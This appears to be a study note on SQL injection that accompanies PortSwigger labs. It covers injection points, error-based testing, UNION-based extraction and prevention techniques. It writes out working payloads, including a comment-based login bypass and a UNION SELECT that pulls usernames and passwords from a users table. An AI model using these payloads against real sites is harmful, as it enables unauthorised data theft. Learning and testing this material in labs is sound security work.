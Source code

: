 #Red 
1. **Basic SQL Injection**
     - Identifying injection points
     - Basic UNION-based SQL Injection
2. **Error-based SQL Injection**
     - Leveraging database error messages
3. **Union-based SQL Injection**
     - Using the UNION operator to extract data   
4. **Blind SQL Injection**
     - Time-based Blind SQL Injection
     - Boolean-based Blind SQL Injection
5. **Out-of-Band SQL Injection**
     - Using DNS and HTTP requests to exfiltrate data
## Basic SQL Injection

### 1. Identifying Injection Points

#### Common Injection Points
1. **User Input Fields**:
   - Login forms
   - Search fields
   - Registration forms
   - Contact forms

2. **URL Parameters**:
   - Query strings (e.g., `example.com/products?id=1`)

3. **Cookies**:
   - User information stored in cookies

4. **HTTP Headers**:
   - User-Agent, Referer, etc.

5. **API Endpoints**:
   - RESTful and SOAP API parameters

#### Techniques to Identify Injection Points

1. **Single Quote Test**:
- Enter a single quote (`'`) in input fields or URL parameters.
- If an error occurs (e.g., `SQL syntax error`), it indicates a potential injection point.
- Example:
```
Login Username: admin'
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin'';
```

2. **Comment Injection Test**:
- Use SQL comments (`--`, `#`) to bypass parts of the query.
- Example:
```
Login Username: admin' -- 
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';
```

1. **Error-Based Testing**:
- Inject known bad inputs and look for database error messages.
- Example:
```
Product ID: 1'
```
- SQL Query:
```sql
SELECT * FROM products WHERE id = 1';
```
- Possible error message:
```
SQL syntax error near '1''
```

#### Portswigger Labs
- [[Portswigger Labs#**SQL Injection 1** |Lab]]: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### 2. Basic UNION-Based SQL Injection

#### Understanding the UNION Operator
- The `UNION` operator is used in SQL to combine the results of two or more SELECT statements.
- Each SELECT statement within the UNION must have the same number of columns in the result sets with similar data types.

#### Steps to Perform UNION-Based SQL Injection

1. **Determine the Number of Columns**:
- Inject a UNION SELECT statement with NULL values to identify the number of columns.
- Example:
```
Product ID: 1 UNION SELECT NULL, NULL, NULL
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT NULL, NULL, NULL;
```
- Adjust the number of `NULL` values until no error is returned.

2. **Find Data Types**:
- Replace NULL with values matching the data type of each column.
- Example:
```
Product ID: 1 UNION SELECT 1, 'string', NULL
```

1. **Extract Data**:
- Once the number of columns and their data types are known, extract data from another table.
- Example:
```
Product ID: 1 UNION SELECT username, password, NULL FROM users
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT username, password, NULL FROM users;
```

#### Example Injection
Given a vulnerable query:
```sql
SELECT id, name, price FROM products WHERE id = '1';
```
Performing a UNION-based injection:
```
Input: 1 UNION SELECT username, password, '0' FROM users
```
Injected Query:
```sql
SELECT id, name, price FROM products WHERE id = '1' UNION SELECT username, password, '0' FROM users;
```

#### Portswigger Labs


### Prevention Techniques
- **Parameterized Queries (Prepared Statements)**:
  - Ensures user inputs are treated as data, not executable code.
- **Stored Procedures**:
  - Encapsulate SQL code, reducing the risk of injection.
- **Input Validation**:
  - Validate and sanitize all user inputs.
- **Least Privilege**:
  - Limit database user privileges to reduce the impact of a successful injection.
